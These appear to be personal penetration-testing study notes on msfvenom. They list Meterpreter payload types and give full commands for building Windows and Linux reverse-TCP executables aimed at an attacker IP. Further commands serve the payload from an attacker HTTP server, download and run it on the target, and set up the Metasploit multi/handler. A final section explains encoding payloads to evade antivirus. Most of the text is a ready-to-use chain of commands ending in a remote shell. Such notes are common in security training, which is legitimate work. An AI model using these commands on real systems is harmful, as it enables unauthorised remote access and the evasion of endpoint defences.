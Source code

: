 `msfvenom --list payloads`
--> primary using:
windows/x64/meterpreter/reverse_tcp
linux/x64/meterpreter/reverse_tcp
windows/meterpreter/bind_tcp
`<os>/<system archi>/<staged,nonstaged,type of payload>/<type of connection>`

- Note:
Staged payload:         windows/x64/meterpreter/reverse_tcp
Non-staged payload: windows/x64/reverse_tcp

32bit payloads work on both 64 and 32bit but 64bit only woks on 64bit.

`msfvenom --list formats`
--> types of available payload formats 
-> executable formats (asp elf exe)
-> framework formats (py c powershell hex)

### Generating
windows 32 bit meterpreter reverse tcp
`msfvenom -a x86 -p windows/meterpreter/reverse_tcp LHOST=<attackers ip> LPORT=<anyt> -f exe > payloadx86.exe`

windows 64 bit meterpreter reverse tcp
`msfvenom -a x64 -p windows/x64/meterpreter/reverse_tcp LHOST=<attackers ip> LPORT=<anyt> -f exe > payloadx64.exe`

linux 32 bit meterpreter reverse tcp in linux extensible linking format (elf)
`msfvenom -a x86 -p linux/meterpreter/reverse_tcp LHOST=<attackers ip> LPORT=<anyt> -f elf > payloadx86`

Sending payload to http target
`sudo python -m SimpleHTTPServer 80` -> on attacker with payload
`wget http://<ip>/<payloadName>` or `curl` -> on the target

On target
`chmod +x payloadx86`
`./payloadx86`

On attacker
`use multi/handler`
`set payload windows/meterpreter/reverse_tcp`

## Encoding Payloads with MSFvenom

- AV solutions like windows defender prevent payloads from uploading/executing
- They use signature based detection generally
- Similar to file hashing where each file has a unqiue hash
- AV companies have a large db (makes it difficult to evade new AV solutns)
- This method only works for old AV software

Shellcode
- a piece of code typically used as payload for exploit
- a piece of code that provides attacker a remote cmd shell
- encode this to evade old AVs
